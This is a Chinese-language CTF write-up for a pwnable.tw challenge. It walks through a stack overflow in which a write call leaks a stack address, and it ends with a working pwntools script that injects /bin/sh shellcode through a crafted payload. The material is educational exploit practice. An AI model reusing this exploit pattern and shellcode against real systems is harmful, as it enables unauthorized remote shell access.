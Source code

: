 # ReadMe
#0blog

溢出，系统调用read和write，写shellcode的话，就要得到shellcode的首地址了。
瞅了瞅Gadgets，似乎并没有什么可以利用的。

![](ReadMe/804F8841-839C-4955-8D0F-C664EB3B169C.png)

回到两个函数，read的话肯定是触发溢出，那么write的话，是不是可以泄漏点东西呢～～
程序没开保护而且静态链接，可以和这个[CTF-Angstromctf-2018 | Lambda](http://d4rkd0g.github.io/2018/03/29/CTF-Angstromctf-2018/#6-Hellcode)似的泄漏和esp相关的信息。
首先可以控制eip，接着因为要泄漏，所以就要跳到write。write的地址在0x08048087，改一下：
![](ReadMe/A888565E-4DEB-423B-BF0D-46E754A25275.png)

阿哦~直接回车的话，传入的数据会有一个“0a”覆盖掉后续地址中的内容，要么pwntools中的send，要么直接Ctrl+D：

![](ReadMe/94C9EA4E-6C57-4DA1-AE70-DB8134E6A2A1.png)

Int 0x80调用write的时候打印的ecx中的数据，也就是会打印出0xffffd790，看起来好像一个栈地址。于是我们回到程序的开头：

![](ReadMe/08DA7F43-D5A7-4D43-9673-1A65C6A0BDC3.png)

因此，就可以得知关于栈的其他地址。
得到的地址也就是esp+4，之后执行read函数，读入的数据存在esp，然后esp增加0x14，最后ret。
算一算，构造一下payload：
`‘A’ * 0x14 + ret + shellcode`
其中ret即为泄漏的地址-4+0x14+4。

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
debug = 0

if debug:
    p = process("./start")
    gdb.attach(proc.pidof(p)[0])
else:
    p = remote("chall.pwnable.tw", 10000)

p.recvuntil("Let's start the CTF:")
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
payload = "A" * 20 + p32(0x08048087)
p.send(payload)
esp = u32(p.recv()[:4])
payload = "A" * 20 + p32(esp + 20) + shellcode 
p.send(payload)
p.interactive()
```

![](ReadMe/22F50B10-C5C9-404B-824F-4464DB87A4D8.png)

那么问题来了，对于这种应该怎么符号执行和Fuzzing来做。。。